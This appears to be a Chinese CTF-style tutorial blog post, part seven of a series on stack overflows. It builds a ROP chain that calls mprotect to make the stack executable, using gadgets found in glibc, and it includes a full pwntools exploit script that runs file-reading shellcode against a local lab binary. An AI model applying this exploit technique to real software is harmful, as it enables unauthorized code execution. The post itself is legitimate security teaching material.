 ```yaml
---
id: 782
layout: post
title: '二进制安全之栈溢出（七）'
date: 2017-10-26 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


本篇文章会使用一个稍复杂的 gadget，同时解决 gadget 含有换行符带来的问题。

### mprotect

之前使用 `vmmap` 命令的时候会注意到有一列是内存地址的权限，`rwx` 和文件系统的一致，NX 不可执行就是没有 `x` 权限，当然这不是绝对的，使用 `mprotect` 可以修改这个权限，这样的话，就可以在栈上执行 shellcode 了。

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r-xp	/home/virusdefender/Desktop/pwn/new/vuln
0x00600000         0x00601000         r--p	/home/virusdefender/Desktop/pwn/new/vuln
0x00601000         0x00602000         rw-p	/home/virusdefender/Desktop/pwn/new/vuln
0x00602000         0x00623000         rw-p	[heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 ---p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 r--p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 rw-p	mapped
0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fda000 0x00007ffff7fdd000 rw-p	mapped
0x00007ffff7ff6000 0x00007ffff7ff8000 rw-p	mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p	[vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp	[vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
```

函数原型是 `int mprotect(void *addr, size_t len, int prot);`，`addr` 是内存地址开头，`len` 是长度，`prot` 就是权限位，在 manpage 上有 `PROT_WRITE`、`PROT_EXEC`、`PROT_READ` 等几项，权限是位运算之后的数字，根据宏定义， `rwx` 就是 `0x1 | 0x2 | 0x4`。

需要注意的是 `mprotect` 修改的内存的起始地址必须和内存页对齐，范围也必须是内存页大小的整数倍，否则系统调用会失败，详见 manpage。`getconf PAGESIZE` 可以获取内存页大小，默认是 `4096`。

### ROP 构造 gadget

`mprotecct` 有三个参数，就会使用 `rdi, rsi, rdx` 寄存器。如果想让整个栈区可执行的话，在 `vmmap` 可以获取栈区的开头和结尾地址，那三个寄存器的值就分别是 `0x00007ffffffde000`、`0x00007ffffffff000 - 0x00007ffffffde000` 和 `0x1 | 0x2 | 0x4`。然后在调用 `mproect` 系统系统调用的时候，`rax` 寄存器是系统调用号，`0xa`。所以按照之前的文章，只要能找到下面这些 gadget 就可以了。

```
pop rdi; ret;
pop rsi; ret;
pop rdx; ret;
pop rax; ret;
syscall; ret;
```

但是有些事情总不会太直接，能在二进制文件中只能找到两个 gadget，其中第二个有一个寄存器是没用的，但是并不影响。

```
➜  new ROPgadget --binary vuln | grep "pop rdi"
0x0000000000400803 : pop rdi ; ret

➜  new ROPgadget --binary vuln | grep "pop rsi"
0x0000000000400801 : pop rsi ; pop r15 ; ret
```

这个时候可以去 glibc 中找了。

```
# 这个文件处理比较慢，可以先保存下结果
➜  new ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 > libc.gadget

➜  new grep "pop rdx ; ret" libc.gadget
0x0000000000001b92 : pop rdx ; ret

➜  new grep "pop rax ; ret" libc.gadget
0x0000000000033542 : add al, ch ; pop rax ; ret

➜  new grep "syscall ; ret" libc.gadget
0x00000000000bc375 : syscall ; ret
```

如果已知 glibc 的加载基址，使用基址加上上面的地址就可以了，这个基址目前可以在 `vmmap` 或者 `ldd` 中看到。

### 0xa

如果按照上面的说法直接写 shellcode，会发现栈上的数据并不全，再认真的调试就会发现，shellcode 中含有 `0xa`，也就是 `\n` 的 ascii，因为 shellcode 是 gets 读入的，所以就会在这里被截断。

我选择了先 `pop rax` 为 `0x9`，然后 `add rax, 1； ret` 的 gadget。

```
➜  new grep "add rax, 1 ; ret" libc.gadget
0x00000000000abf40 : add rax, 1 ; ret
```

### shellcode

```python
from pwn import *

student = 0x7fffffffe2f0
shellcode = "1925\n"
cat = asm(shellcraft.amd64.linux.cat("flag"), arch="amd64", os="linux")
shellcode += cat + "A" * (0x7fffffffe348 - student - len(cat))

# pop rdi; ret
shellcode += p64(0x0000000000400803)
# mprotect arg1 addr -> rdi
shellcode += p64(0x00007ffffffde000)

# pop rsi; pop r15; ret;
shellcode += p64(0x0000000000400801)
# mprotect arg2 size -> rsi
shellcode += p64(0x00007ffffffff000 - 0x00007ffffffde000)
# -> r15
shellcode += p64(0)

libc_base = 0x00007ffff7a0d000

# pop rdx; ret;
shellcode += p64(libc_base + 0x0000000000001b92)
# mprotect arg3 rwx -> rdx
shellcode += p64(0x1 | 0x2 | 0x4)

# pop rax; ret
shellcode += p64(libc_base + 0x0000000000033544)
# -> rax
shellcode += p64(0xa - 1)

# add rax, 1; ret
shellcode += p64(libc_base + 0x00000000000abf40)

# syscalll; ret
shellcode += p64(libc_base + 0x00000000000bc375)

# shellcode
shellcode += p64(student)

print shellcode
```

运行后可以看到栈区的内存已经是 `rwx` 的权限了。

```
0x00007ffffffde000 0x00007ffffffff000 rwxp	[stack]
```

